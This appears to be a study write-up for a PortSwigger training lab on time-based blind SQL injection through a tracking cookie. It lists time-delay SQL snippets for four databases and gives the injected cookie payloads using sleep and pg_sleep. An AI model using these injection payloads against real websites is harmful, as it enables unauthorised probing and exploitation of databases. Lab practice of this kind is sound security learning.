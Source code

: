 # Lab #13 - Blind SQL Injection with time delays
https://portswigger.net/web-security/sql-injection/blind/lab-time-delays

Vulnerable parameter - tracking cookie

**End Goal:**
- to prove that the field is vulnerable to blind SQLi (time based)

**Analysis:**

***Conditional time delays***
You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle 	```SQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual```

Microsoft 	```SQL IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'```

PostgreSQL 	```SQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END```

MySQL 	```SQL SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')``` 

*Note for Burp: **ctrl + u** to convert code*

select tracking-id from tracking-table where trackingid='OVmpehhTPt2iCL19'|| (SELECT sleep(10))--';

```SQL
' || (SELECT sleep(10))-- 
```
-> maybe is not the correct Database

```SQL
' || (SELECT pg_sleep(10))-- 
```


